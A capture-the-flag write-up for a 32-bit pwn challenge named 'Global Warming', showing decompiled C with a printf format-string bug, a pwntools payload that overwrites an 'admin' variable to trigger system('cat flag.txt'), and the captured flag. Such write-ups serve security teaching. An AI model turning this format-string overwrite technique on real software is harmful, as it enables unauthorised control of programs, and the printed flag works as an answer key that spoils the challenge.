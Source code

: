 # Writeup for Global Warming (Pwn) Challenge

### Info
```
[Put the description here]

File : global-warming: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a8349c997968a84bfa8b253e0f9a3f9349cc1538, for GNU/Linux 3.2.0, not stripped

Checksec : Arch:     i386-32-little
           RELRO:    Partial RELRO
           Stack:    No canary found
           NX:       NX enabled
           PIE:      No PIE (0x8048000)
```
### Analysis

This is the decompilation code of the binary. <br>
The main takes 1024 bytes of stdin and calls login with our input.
```C
int main(int argc, const char **argv, const char **envp)
{
  char our_input; // [esp+0h] [ebp-408h]
  int *v5; // [esp+400h] [ebp-8h]

  v5 = &argc;
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
  fgets(&our_input, 1024, stdin);
  login((int)"User", &our_input);
  return 0;
}
```

```C
int login(int a1, char *our_input)
{
  int result; // eax

  printf(our_input);                            // Format string vulnerability
  if ( admin == 0xB4DBABE3 )
    result = system("cat flag.txt");
  else
    result = printf("You cannot login as admin.");
  return result;
}
```

### Exploit

![imgbb](https://i.ibb.co/Ypvp4zn/p1.jpg)
By this we get to know that our input is at the offset 12. We can build a format string payload with the help of pwntools. So we need to overwrite the `admin` variable with `0xB4DBABE3` we can do that by exploiting the format string bug.<br>
 ```payload = fmtstr_payload(12, {exe.symbols['admin'] : p64(0xB4DBABE3)}, write_size='short')```    
<br>
![imgbb](https://i.ibb.co/Xkyqf6w/p2.jpg)
`FLAG : csictf{n0_5tr1ng5_@tt@ch3d}`
 For complete solution look at exploit.py .
